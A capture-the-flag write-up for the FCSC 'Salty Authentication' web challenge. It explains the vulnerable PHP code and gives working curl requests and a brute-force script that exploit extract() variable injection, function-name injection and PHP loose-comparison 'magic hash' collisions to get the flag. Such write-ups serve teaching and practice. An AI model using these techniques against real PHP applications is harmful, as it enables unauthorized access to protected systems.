


# Salty Authentication


When trying to access the given url, we get the following answer:
```php
<?php

error_reporting(0);

include('flag.php');
$salt = bin2hex(random_bytes(12));

extract($_GET);

$secret = gethostname() . $salt;

if (isset($password) && strlen($password) === strlen($secret) && $password !== $secret) {
    if (hash('fnv164', $password) == hash('fnv164', $secret)) {
        exit(htmlentities($flag));
    } else {
        echo('Wrong password!');
        exit($log_attack());
    }
}

highlight_file(__FILE__);

?>
```

The secret string is composed of the hostname of the machine concatenated with a random salt.
The script checks if the "password" parameter was provided in the GET request and if it has the same length as the secret string. If these conditions are met, the hash function "fnv164" is applied to the secret string and the "password" parameter, and the two hashes are compared.

Let's read the php doc of the [extract](https://www.php.net/manual/en/function.extract.php) function:



With this function we can control a number of variables in the script.
This allows us to submit, via a GET request, the $password and $salt parameters.
First, we will try to know the length of the hostname returned by the gethostname() function. To do so, we just have to submit an empty $salt, and iterate on the length of $password until the message 'Wrong password!

```console
dqrkk$ for i in {1..100}; do response=$(curl -s "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=$(python -c 'print "A" * '$i'')") && [[ "$response" == *"Wrong password"* ]] && echo "Password length: $i"; sleep 2; done
Password length: 12
```

The hostname has a length of 12 characters.
In order to go further, we need to know the value of the hostname.
For that, we will use a flaw in the script.
Indeed, when the hashes don't match, the script displays the message "Wrong password!", but it also makes an exit($log_attack()).
This gives us the possibility to call a function by controlling the value of $log_attack.
We will send the string gethostname in the parameter, in order to make the script execute this function.

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=&password=AAAAAAAAAAAA&log_attack=gethostname"; echo     
Wrong password!9be4a60f645f
```

Hostname is 9be4a60f645f

At this point, all we have to do is find a $password and $salt values that will satisfy the following conditions:

```php
$secret = "9be4a60f645f" . $salt

strlen($password) === strlen($secret)
$password !== $secret
hash('fnv164', $password) == hash('fnv164', $secret)
```

We must therefore find PHP fnv164 hash collisions.
Searching for 'fnv164 collisions' on google, we find a site explaining that it is possible to generate collisions in hashes if the comparison between the 2 hashes uses == to compare them.
It uses the trick that for PHP a string formated lkie '0+e[0-9]+' is evaluated as 0.
So '0e1' == '00e2' == '0' == 0

We just need to find two different salt with the same length that generate a hash that match the previous format.
The following script do the job:

```php
// Générer une chaîne de sel aléatoire de longueur variable contenant des chiffres et des lettres
function generateStrings($min_length, $max_length)
{
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'; // Chiffres et lettres autorisés
    $characters_length = strlen($characters);

    for ($i = $min_length; $i <= $max_length; $i++) {
        $combinations = pow($characters_length, $i); // Nombre total de combinaisons

        for ($j = 0; $j < $combinations; $j++) {
            $string = '';
            $index = $j;

            // Convertir l'index en base $characters_length pour générer une chaîne de caractères unique
            for ($k = 0; $k < $i; $k++) {
                $string .= $characters[$index % $characters_length];
                $index = floor($index / $characters_length);
            }

            yield $string;
        }
    }
}

foreach (generateStrings(1, 20)  as $salt) {
    // Concaténation du secret avec le sel
    $secret = "9be4a60f645f" . $salt;

    // Calcul du hash
    $hash = hash('fnv164', ($secret));

    // Vérification que le hash commence par '0e' suivi de chiffre
    if (preg_match('/^0e\d+$/', $hash)) {
        echo "Salt: $salt, Le hash $hash commence par '0e' suivi de chiffre.\n";
    }
}
```

Let's laucnh it, we obtain:

```console
dqrkk$ php salty.php
Salt: ChI00, Le hash 0e65994470693693 commence par '0e' suivi de chiffres.
Salt: 9iu10, Le hash 0e31697456461001 commence par '0e' suivi de chiffres.
Salt: xQj20, Le hash 0e86686877103172 commence par '0e' suivi de chiffres.
Salt: ChH20, Le hash 0e62314470665024 commence par '0e' suivi de chiffres.
Salt: 9iH20, Le hash 0e42687456548181 commence par '0e' suivi de chiffres.
Salt: xQn30, Le hash 0e78716877040301 commence par '0e' suivi de chiffres.
Salt: xQj40, Le hash 0e86626877102720 commence par '0e' suivi de chiffres.
Salt: xQk40, Le hash 0e89686877126729 commence par '0e' suivi de chiffres.
Salt: xQi50, Le hash 0e90736877189848 commence par '0e' suivi de chiffres.
Salt: xQk50, Le hash 0e89676877126556 commence par '0e' suivi de chiffres.
```

And that's it.
Let's take the first two calculated values.

$password will be 9be4a60f645f9iu10
hash('fnv164', '9be4a60f645f9iu10') = '0e31697456461001'
$secret will be 9be4a60f645fChI00
hash('fnv164', '9be4a60f645fChI00') = '0e65994470693693'

```console
dqrkk$ curl "https://salty-authentication.france-cybersecurity-challenge.fr/?salt=ChI00&password=9be4a60f645f9iu10"; echo  
FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}
```

Flag is FCSC{d090643090b9ac9dd7cddc1d830f0457213e5b50e7a59f1fe493df69c60ac054}


